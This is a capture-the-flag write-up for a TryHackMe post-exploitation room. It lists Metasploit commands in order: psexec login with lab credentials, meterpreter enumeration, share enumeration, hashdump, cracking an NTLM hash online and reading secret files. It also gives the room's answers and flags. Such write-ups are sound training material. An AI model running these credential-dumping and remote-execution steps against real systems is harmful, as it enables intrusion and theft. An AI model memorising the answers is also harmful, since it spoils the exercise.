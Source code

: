 # Try Hack Me Challenge POst-Exploitation
## Write Up

This Box Offers a lot of knowledge around how meterpreter works.

Now we are presented with multiple questions, which in order for us to solve them, we need to win control over a machine.

So:
  ```bash
  msfconsole
  use exploit/windows/smb/psexec
  SET LHOST Machineip
  SET SMBPass Password1
  SET SMBUser ballen
  exploit
  ```
  Now with the session, we have control to the Target Machine.

- Q: What is the computer name?
- A: ACME-TEST
- C: sysinfo

- Q: What is the target domain?
- A: FLASH
- C: ifconfig

- Q: What is the name of the share likely created by the user?
- A: speedster
- C: For this one we need to use another module:
  Leave the session open with sessions -i 2
  ```bash
     use windows/gather/enum_shares
     set Session 2
     exploit
  ```
  Go back to meterpreter using (sessions 2)

- Q: What is the NTLM hash of the jchambers user?
- A: 69596c7aa1e8daee17f8e78870e25a5c
- C: Hashdump

- Q: What is the cleartext password of the jchambers user? 
- A: Trustno1
- C: Copy the full hash and place it on hashes.com

- Q: Where is the "secrets.txt"  file located? (Full path of the file)
- A: c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt
- C: search -f secrets.txt

- Q: What is the Twitter password revealed in the "secrets.txt" file?
- A: KDSvbsw3849!
- C: cat "c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt"

- Q: Where is the "realsecret.txt" file located? (Full path of the file)
- A: c:\inetpub\wwwroot\realsecret.txt
- C: search -f realsecret.txt

- Q: What is the real secret?
- A: The Flash is the fastest man alive
- C: cat "c:\inetpub\wwwroot\realsecret.txt"
